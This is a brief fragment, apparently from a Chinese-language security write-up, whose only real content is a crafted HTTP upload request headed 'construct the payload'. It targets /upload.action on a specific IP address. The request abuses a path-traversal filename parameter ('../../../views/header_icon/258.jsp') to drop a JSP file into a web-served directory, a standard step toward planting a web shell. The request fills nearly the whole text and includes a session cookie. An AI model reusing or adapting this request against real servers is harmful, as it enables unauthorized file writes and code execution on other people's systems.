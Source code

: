 构造 payload

```plain
POST /upload.action HTTP/1.1
Host: 47.99.57.31:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------21242332512857643478691364422
Content-Length: 408
Origin: http://47.99.57.31:8080
Connection: close
Referer: http://47.99.57.31:8080/elegant
Cookie: JSESSIONID=C0A792880BA03E5B98EE28FE1000AADA
Upgrade-Insecure-Requests: 1

-----------------------------21242332512857643478691364422
Content-Disposition: form-data; name="FileUpload"; filename="1.jsp"
Content-Type: text/plain

123
-----------------------------21242332512857643478691364422
Content-Disposition: form-data; name="fileUploadFileName";
Content-Type: text/plain

../../../views/header_icon/258.jsp
-----------------------------21242332512857643478691364422--
```
